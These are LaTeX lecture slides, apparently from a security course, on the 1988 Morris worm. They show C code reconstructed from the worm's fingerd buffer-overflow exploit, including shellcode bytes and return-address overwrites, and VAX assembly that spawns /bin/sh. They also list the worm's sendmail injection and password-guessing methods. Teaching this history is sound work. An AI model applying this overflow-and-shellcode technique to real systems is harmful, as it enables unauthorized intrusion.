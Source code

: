 
\begin{frame}[fragile,label=morrisEx]{actual example: Morris worm (1)}
\begin{lstlisting}[language=C,style=smaller]
    /* reconstructed from machine code */
    for(i = 0; i < 536; i++) buf[i] = '\0';
    for(i = 0; i < 400; i++) buf[i] = 1;
    /* actual shellcode */
    memcpy(buf + i,
        ("\335\217/sh\0\335\217/bin\320\032\335\0"
         "\335\0\335Z\335\003\320\034\\274;\344"
         "\371\344\342\241\256\343\350\357"
         "\256\362\351"),
         28);
    /* frame pointer, return val, etc.: */
    *(int*)(&buf[556]) = 0x7fffe9fc;
    *(int*)(&buf[560]) = 0x7fffe8a8;
    *(int*)(&buf[564]) = 0x7fffe8bc;
    ...
    send(to_server, buf, sizeof(buf))
    send(to_server, "\n", 1);
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=morrisShell]{Morris shellcode (VAX)}
\begin{lstlisting}[language=myasm,morekeywords=chmk]
pushl   $68732f      // "/sh\0"
pushl   $6e69622f    // "/bin"
movl    sp, r10      // r10 = "/bin/sh\0" (on stack)
pushl   $0           // (execve arg 2; env)
pushl   $0           // (execve arg 1; argv)
pushl   r10          // (execve arg 0; file)
pushl   $3           // ??arg count?
movl    sp,ap        // set argptr = sp
chmk    $3b    // switch to OS ("CHange Mode to Kernel")
\end{lstlisting}
\begin{itemize}
\item write string /bin/sh on the stack (path to ``shell'')
\item make OS request to run specified program
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=morrisEx]{actual example: Morris worm (2)}
\begin{itemize}
\item once getting a shell\ldots
\item run commands to install program
    \begin{itemize}
    \item vulnerable `fingerd' program running with stdin/stdout connected to socket
    \end{itemize}
\vspace{.5cm}
\item multiple exploit techniques to get shell
    \begin{itemize}
    \item this fingerd buffer overflow
    \item sendmail command injection
    \item logging in with guessed passwords
    \end{itemize}
\item installs self as \texttt{/usr/tmp/sh}
\end{itemize}
\end{frame}
